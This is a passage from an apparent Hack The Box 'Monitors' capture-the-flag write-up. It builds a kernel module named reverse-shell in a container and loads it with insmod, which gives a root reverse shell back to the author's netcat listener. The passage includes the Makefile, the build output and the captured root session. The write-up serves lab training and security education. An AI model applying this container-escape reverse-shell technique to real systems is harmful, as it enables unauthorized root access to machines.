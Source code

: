     
    
    obj-m +=reverse-shell.o
    all:
            make -C /lib/modules/4.15.0-142-generic/build M=/root modules
    clean:
            make -C /lib/modules/4.15.0-142-generic/build M=/root clean
    

I put `/root` where it was `$(PWD)`, so I’ll need to work out of that
directory in the container on Monitors. I’ll be quick and cleanup once I’m
done.

I’ll upload both those files to the container using `wget` and a Python
webserver.

#### Build and Run

With both those files in `/root`, I’ll go into that directory and run `make`:

    
    
    root@ec8b9784f4a1:~# make
    make -C /lib/modules/4.15.0-142-generic/build M=/root modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
      CC [M]  /root/reverse-shell.o
      Building modules, stage 2.
      MODPOST 1 modules
      CC      /root/reverse-shell.mod.o
      LD [M]  /root/reverse-shell.ko
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
    

This builds the kernel module.

Now I’ll start `nc` and install it with `insmod reverse-shell.ko`. On doing
so, it’ll execute the reverse shell.

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 42726
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@monitors:/# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    

And grab `root.txt`:

    
    
    root@monitors:/root# cat root.txt
    8e510bad************************
    

[](/2021/10/09/htb-monitors.html)

